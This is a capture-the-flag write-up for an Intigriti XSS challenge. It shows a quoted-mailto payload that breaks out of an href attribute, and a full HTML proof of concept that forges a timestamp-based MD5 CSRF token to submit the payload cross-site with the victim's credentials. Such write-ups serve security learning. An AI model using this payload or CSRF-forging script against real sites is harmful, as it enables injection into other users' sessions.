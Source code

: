
## Intigriti — XSS Challenge 

![Capture](https://user-images.githubusercontent.com/59454895/112804703-fff84980-9074-11eb-972e-85a85c837655.PNG)

## Let's start

The challenge website had an input field to enter notes where we could write what we want.
First of all i tried to fuzz in order to see how the challenge would react , the first thing i noticed was a csrf token and our notes in the post request,
i also noticed that if we send a special character to escape the html tag with any strange element it will be sanitized by the server . After a while i
found out that the notes went through htmlspecialchars() function, which should help to prevent xss on this field because it can convert elements like < or > into  HTML entities.

Fortunately during my test i also tried to put an email in the note field ,it  helped me to find a hidden feature (the mailto attribute did not appear with other types of inputs).

![Capture3](https://user-images.githubusercontent.com/59454895/112806481-18696380-9077-11eb-95b0-8221d5b8cc54.PNG)

I tought it was interesting bacause maybe we could escape since the email address appears inside the href attribute of the HTML tag.
I decided to read how "mailto" works from the rfc , and i found out there is a strange way to declare the email with this attribute:
``` "\\\"it's\ ugly\\\""@example.org; ``` .

 It was a very good find , because it could allow to inject javascript between ``` "\\\"it's\ ugly\\\" ```  and ``` "@example.org; ```
  
the final payload was :
``` "\\\"traffik\prova\\\"\ onmouseover=alert('flag{THIS_IS_THE_FLAG}');//"@outlook.it  ```

The following payload breaks out of the attribute and adds an onmouseover event.
![Capture6](https://user-images.githubusercontent.com/59454895/112814874-063ff300-9080-11eb-9319-a2ce218340fb.PNG)


## CSRF Token bypass
The challenge had CSRF token(in this case hashed with MD5) built in. The page generates a token and stores it in a hidden form input.  That's a problem for our final POC because the server ensure that the form hasn’t been submitted by a malicious site thanks to this token , so we need to bypass it. 


First of all i tried to generate an empty csrf token and a csrf token of the same length as the original but nothing worked.
After a while i noticed that there was also a comment with a timestamp and it helped me a lot , because after a research i understood that the token was generated by taking the unix timestamp and hashandled it in md5 , that's not effective as a protection because is easy to predict .


![Capture5](https://user-images.githubusercontent.com/59454895/112812171-15717180-907d-11eb-91a2-a6b0f9df6459.PNG)

So in order to finish the challenge i made a POC where i could send my xss payload inside the notes parameter with the post request thanks to ``` XMLHttpReques ``` ,  to bypass the csrf token i just took the date with ``` Date.now() ``` function in js and hashandled all in md5.
Final POC:

```html
<html>
  <head>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/crypto-js/3.1.9-1/core.js"></script>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/crypto-js/3.1.9-1/md5.js"></script>
  </head>
  <body>
    <button onclick="Esegui()">Execute Payload</button>
    <script>
        function Esegui() {
          var url = "https://challenge-0321.intigriti.io/";
          var flag = "\ onmouseover=alert('flag{THIS_IS_THE_FLAG}');//"
          var xss_payload = "\\\traffik\prova\\\" + flag + "@outlook.it "

          var d = Date.now().toString().substr(0,10);
          var csrf = CryptoJS.MD5(d).toString();
          var data = "csrf=" + csrf + "&notes=" + xss_payload;

          var request1 = new XMLHttpRequest();
          request1.open("GET",url);
          request1.withCredentials = true;

          request1.onreadystatechange = function () {
            var request2 = new XMLHttpRequest();
            request2.withCredentials = true;
            request2.open("POST", url);
            request2.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
            request2.send(data);
          }

          request1.send();
        }
    </script>
</body>
</html>
```
